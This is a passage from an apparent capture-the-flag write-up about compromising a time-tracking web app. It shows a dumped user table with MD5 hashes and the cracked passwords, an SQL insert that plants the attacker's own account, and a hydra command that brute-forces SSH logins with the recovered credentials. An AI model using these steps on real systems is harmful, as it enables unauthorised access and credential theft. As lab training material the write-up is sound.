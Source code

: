 ```sql
| claire-r | 2ac9cb7dc02b3c0083eb70898e549b63 |   360 |
| chris-r  | 0d107d09f5bbe40cade3de5c71e9e9b7 |   420 |
| jill-v   | d5c0607301ad5d5c1528962a83992ac8 |   564 |
| barry-b  | 4a04890400b5d7bac101baace5d7e994 | 47893 |
+----------+----------------------------------+-------+
```

There does not appear to be any user defined tables, other than the one used by the app. From the source code we found earlier, we know that these passwords are md5. We can add our own user to the app:

```sql
insert into timetracking.users (user,pass,time) values ("loldot", md5("1234"), 1337);
```

We can also try to crack the passwords of the other users. All of the passwords are easily cracked with https://crackstation.net

| hash                             | alg | password  |
|----------------------------------|-----|-----------|
| 2ac9cb7dc02b3c0083eb70898e549b63 | md5 | Password1 |
| 0d107d09f5bbe40cade3de5c71e9e9b7 | md5 | letmein   |
| d5c0607301ad5d5c1528962a83992ac8 | md5 | sunshine1 |
| 4a04890400b5d7bac101baace5d7e994 | md5 | sandwich  |

We add the cracked passwords to a file passwords.txt and then the user names, with some permutations, to users.txt and check for password reuse on the ssh server, while we checkout the web app.

```bash
hydra -L users.txt -P passwords.txt $IP ssh -t 4 # Maximum four parallel tasks which is recommended for ssh
```

When we log in with our new user, we are greeted with the dashboard of a time tracking application. 

![Time portal](/assets/imgs/umbrella-log-time.png)
